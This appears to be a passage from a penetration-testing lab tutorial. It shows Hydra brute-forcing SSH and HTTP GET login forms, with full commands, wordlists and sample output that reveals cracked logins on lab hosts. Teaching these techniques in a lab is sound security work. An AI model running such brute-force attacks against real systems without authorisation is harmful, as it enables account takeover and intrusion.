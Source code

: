   

SSH  

SSH brute-forcing can be common if your server is accessible to the Internet. Hydra supports many protocols, including SSH. We can use the previous syntax to perform our attack! It's important to notice that password attacks rely on having an excellent wordlist to increase your chances of finding a valid username and password.

SSH

```shell-session
user@machine$ hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:48:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.10.x.x:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@10.10.x.x:22
[INFO] Successful, password authentication is supported by ssh://10.10.x.x:22
[22][ssh] host: 10.10.x.x   login: victim   password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

HTTP login pages

In this scenario, we will brute-force HTTP login pages. To do that, first, you need to understand what you are brute-forcing. Using hydra, it is important to specify the type of HTTP request, whether GET or POST. Checking hydra options: hydra http-get-form -U, we can see that hydra has the following syntax for the http-get-form option:

```html
<url>:<form parameters>:<condition string>[:<optional>[:<optional>]
```

As we mentioned earlier, we need to analyze the HTTP request that we need to send, and that could be done either by using your browser dev tools or using a web proxy such as Burp Suite.

hydra

```shell-session
user@machine$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (http://www.thc.org/thc-hydra) starting at 2021-10-13 08:06:22 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 500 login tries (l:1/p:500), ~32 tries per task 
[DATA] attacking http-get-form://10.10.x.x:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php 
[80][http-get-form] host: 10.10.x.x   login: admin password: xxxxxx 
1 of 1 target successfully completed, 1 valid password found 
Hydra (http://www.thc.org/thc-hydra) 
finished at 2021-10-13 08:06:45
```
